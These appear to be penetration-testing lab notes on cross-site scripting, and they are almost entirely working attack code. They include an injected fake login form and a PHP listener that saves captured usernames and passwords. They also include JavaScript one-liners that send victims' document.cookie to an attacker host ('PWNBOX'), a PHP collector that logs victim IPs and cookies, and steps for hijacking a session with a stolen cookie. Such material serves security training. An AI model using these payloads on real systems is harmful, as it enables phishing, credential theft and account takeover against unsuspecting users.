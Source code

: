 -----
# Discover XSS
-----
- There are 3 tools for discovery: [XSSStrike](https://github.com/s0md3v/XSStrike), [BruteXSS](https://github.com/rajeshmajumdar/BruteXSS),[XSSer](https://github.com/epsylon/xsser)

---
# PHISHING with XSS
-----
- We can direct users to a fake log in form and gather their credentials
- Login Form Injection
```html
<h3>Please login to continue</h3>
<form action=http://$PWNBOX>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```
- Prepare XSS cod to test on the vulnerable form. 
```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```
- Deliver the payload to the vulnerable parameter.
- Setup a PHP server on PWNBOX to retrieve information
```bash
mkdir /tmp/tmpserver
cd /tmp/tmpserver
sudo nano index.php
sudo php -S 0.0.0.0:80
```
- Index.php
```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

-----
# Hijacking Session
-----
- For login forms, we can send scripts to the fields to see which field is vulnerable
```bash
<script src="http://$PWNBOX/username"></script> #username field
<script src="http://$PWNBOX/fullname"></script> #fullname field
```
- Explore and try different variations of payloads from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#blind-xss)
- On PWNBOX, set up PHP server listener:
```bash
mkdir /tmp/tmpserver
cd /tmp/tmpserver
sudo php -S 0.0.0.0:80
```
- Whatever response we receive on PWNBOX indicates that field is vulnerable.

### Prepare a payload
- nano script.js
```javascript
# We can use either one of these:
document.location='http://PWNBOX/index.php?c='+document.cookie;
new Image().src='http://PWNBOX/index.php?c='+document.cookie;
```
- Sometimes, there may be more than 1 cookie value are discovered. We set up the following index.php to capture all of them and store them in cookies.txt
```php
# Index.php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
- Deliver payload
```html
<script src="http://$PWNBOX/script.js"></script>
```
- Once we get the cookie value, we can get to the log in page, add the cookie to the session via Storage tab to log in.